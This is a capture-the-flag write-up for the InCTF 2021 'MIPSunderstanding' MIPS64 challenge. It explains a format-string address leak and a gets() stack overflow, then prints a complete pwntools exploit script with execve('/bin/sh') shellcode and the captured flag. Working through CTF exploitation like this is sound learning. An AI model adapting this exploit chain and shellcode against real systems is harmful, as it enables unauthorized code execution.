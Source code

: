 ```yaml
---
title: InCTF Nationals 2021 MIPSunderstanding writeup
date: 2022-01-10
postLayout: simple
cover: '@/assets/cover/inctf.png'
tags:
- "linux"
- "ctf"
- "mips"
---
```


![](https://i.imgur.com/qUtdCzM.png "MIPSunderstanding")

# Checksec

<pre>
    Arch:     mips64-64-little
    RELRO:    <font color="#FD5FF1">No RELRO</font>
    Stack:    <font color="#FD5FF1">No canary found</font>
    NX:       <font color="#87C38A">NX enabled</font>
    PIE:      <font color="#87C38A">PIE enabled</font>
    RWX:      <font color="#FD5FF1">Has RWX segments</font>
</pre>

# Overview

```yaml
chall: ELF 64-bit LSB pie executable, MIPS, MIPS-III version 1 (SYSV), dynamically linked, with debug_info, not stripped
```

It's an easy challenge. Lets open the binary in ghidra and analyse the binary. Well there's alot of junk code in it so ill straight up show you the `thiago` and `keita` function.

## keita

![](https://imgur.com/uhEsnyT.png)

## thiago

![](https://imgur.com/jcPHCE5.png)

So there are two bugs here.

1. Format string bug for Information disclosure bug. We control the first parameter passed to printf and we can use this bug to leak the address where the binary is being loaded and bypass ASLR. 
2. A stack buffer overflow bug because of using the gets function to read input.

Now lets dive into exploitation. But the most important part is to setup an debug environment for mips.

# Setting up the debug environment

I always use this template given by [X3eRo0](https://twitter.com/X3eRo0) to debug different arch pwn challenges

```python
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

# this exploit was generated via
# 1) pwntools
# 2) ctfinit

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall')
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit=b""
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io=remote("gc1.eng.run", "32113")
io.interactive()
```

so with this `expl.py` you can debug the pwn challenge easily.

![debug-setup](https://imgur.com/arvqUwR.png)
Also one more thing to mention here

```yaml
# gef checksec command inside qemu
gef➤  checksec
Canary                        : ✘ 
NX                            : ✘ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : ✘ 
```

**NX is actually <span style={{ color: 'red' }}>disabled</span> inside qemu**. To enable NX they have to patch the qemu binary. Also use gdb-gef instead of pwndbg because pwndbg has alot of issues when it comes to weird architectures.

Lets start to build exploit.

# Exploit

1. Use the `keita` function to leak pie address
2. Use the `thiago` function to overflow the stack and return to your shellcode

```python expl.py https://raw.githubusercontent.com/4n0nym4u5/CTF-Writeups/main/MIPSunderstanding/exploit.py expl.py
#!/usr/bin/env python3.9
# -*- coding: utf-8 -*-

from rootkit import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./chall', checksec=False)
context.arch = 'mips'
context.bits = 64
context.endian = 'little'
context.terminal = ["tilix","-a","session-add-right","-e"]
context.delete_corefiles = True
context.rename_corefiles = False

gdbscript = '''
target remote 0.0.0.0:1324
'''
exploit="A"*512
if args.GDB:
    io = process(["./qemu-mips64el", "-g", "1324", exe.path])
    if os.fork() == 0:
        a = open("/tmp/gdb.gdb", "w")
        a.write(gdbscript)
        a.close()
        cmd = " ".join(context.terminal) + " gdb-multiarch %s -x /tmp/gdb.gdb" % exe.path
        os.system(cmd)
        os.kill(os.getpid(), 9)

else:
    io = process(["./qemu-mips64el", exe.path])

reu(b"+---------------------------------------+\n")
reu(b"+---------------------------------------+\n")
sl(b"A")
sleep(5)
reu(b"Enter the price you are willing to offer !!\n")
sl(b"%1$p")
sleep(5)
main=int(GetInt()[0])-0x18240b4
exe.address = main-exe.sym.main
shellcode_addr=exe.address+0x1827d80+0x30
info(f"Pie base : {hex(exe.address)}")
info(f"Shellcode: {hex(shellcode_addr)}")
sl(b"1")
re()
sl(b"C")
padding=b"A"*32
rop = flat([
    padding,
    0xdeadbeef,
    exe.address+0x1827d80,
])
sleep(5)
re()
shellcode =  b""
shellcode += b"\x62\x69\x0c\x3c"
shellcode += b"\x2f\x2f\x8c\x35"
shellcode += b"\xf4\xff\xac\xaf"
shellcode += b"\x73\x68\x0d\x3c"
shellcode += b"\x6e\x2f\xad\x35"
shellcode += b"\xf8\xff\xad\xaf"
shellcode += b"\xfc\xff\xa0\xaf"
shellcode += b"\xf4\xff\xa4\x67"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xc1\x13\x02\x24"
shellcode += b"\x0c\x01\x01\x01"

# https://www.exploit-db.com/exploits/45287

sl(rop + b"\x00\x00\x00\x00"*32 + shellcode) # \x00\x00\x00\x00 is nops in mips64
reu(b"+---------------------------------------+\n")
sleep(5)
io.interactive()
```

[![asciicast](https://asciinema.org/a/461708.svg)](https://asciinema.org/a/461708)

> InCTF&#123;w3_sh4ll_not_b3_m0v3D_132244345&#125;